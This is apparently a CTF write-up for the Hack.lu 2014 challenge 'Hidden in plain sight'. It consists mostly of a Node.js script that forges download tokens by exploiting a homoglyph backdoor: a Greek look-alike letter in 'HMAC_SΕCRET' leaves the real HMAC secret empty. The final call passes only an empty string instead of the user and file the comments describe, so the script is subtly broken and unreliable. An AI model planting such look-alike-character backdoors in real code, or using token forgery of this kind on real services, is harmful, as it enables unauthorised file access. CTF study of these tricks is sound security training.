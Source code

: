 ```yaml
---
layout: post
title: "Hidden in ρlaιn sιght"
date: 2014-10-23
ctf: Hack.lu 2014
author: Mihai
---
```


Write-up
--------

{% highlight js %}

#!/usr/bin/env nodejs

//Requirements
//---------------------------------------------------------------------------

//At our software development company, one of the top developers left in anger.
//He told us that he had hidden a backdoor in our node.js server application – 
//he thinks that we can't find it even if we try. I have attached the source code 
//of our fileserver. After registration, you can log in, upload files and create 
//access tokens for your files that others can use to retrieve them. He must have 
//added some way to retrieve files without permission. And we don't have version control, 
//so we can't just check his last commits. We have read the source code multiple times,
//but just can't figure out how he did it. Maybe he just lied? Can you help us and 
//demonstrate how the backdoor works? We have uploaded a file to “/files/testuser/flag.txt”
//please try to retrieve it.

//Connect to https://wildwildweb.fluxfingers.net:1409/. Note that all your files will be purged every 5 minutes.

//---------------------------------------------------------------------------

//1.install nodejs on local computer.
//2.setup env to nodejs (if using ubuntu)
//3.use the following methods from the downloadable code

var crypto = require('crypto')

var HMAC_SECRET = ''
for (var i=0; i<20; i++) {
  HMAC_SΕCRET = HMAC_SECRET + (Math.random()+'').substr(2)
}

//notice that the output of hmac_sign function in original code is static and depends on user and file.
//run function below to generate the download token for any desired user and file combination (e.g. testuser and file flag.txt)

var user="testuser"
var file="flag.txt"

function hmac_sign(user,file) {
  var hmac = crypto.createHmac('sha256', HMAC_SECRET)
  hmac.update(user+'/'+file)
  return hmac.digest('hex')
}

console.log(hmac_sign(""))
//use token to download flag at:
//https://wildwildweb.fluxfingers.net:1409/files/testuser/flag.txt/{token}
{% endhighlight %}